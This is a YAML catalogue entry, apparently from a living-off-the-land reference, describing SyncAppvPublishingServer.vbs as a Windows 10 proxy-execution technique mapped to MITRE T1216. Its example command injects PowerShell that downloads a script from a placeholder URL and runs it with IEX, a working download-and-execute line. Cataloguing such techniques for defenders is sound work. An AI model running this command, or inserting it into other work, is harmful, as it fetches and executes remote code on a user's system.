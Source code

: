 ```yaml
---
name: Syncappvpublishingserver.vbs
description: Script used related to app-v and publishing server
functions:
  execute:
    - description: Inject PowerShell script code with the provided arguments
      code: SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Use Powershell host invoked from vbs script
resources:
    - resource: https://twitter.com/monoxgas/status/895045566090010624
    - resource: https://twitter.com/subTee/status/855738126882316288
fullpath:
    - path: C:\Windows\System32\SyncAppvPublishingServer.vbs
detection:
  - IOC: 
acknowledgement:
  - Person: Nick Landers
    Handle: '@monoxgas'
  - Person: Casey Smith
    Handle: '@subtee'
---
```

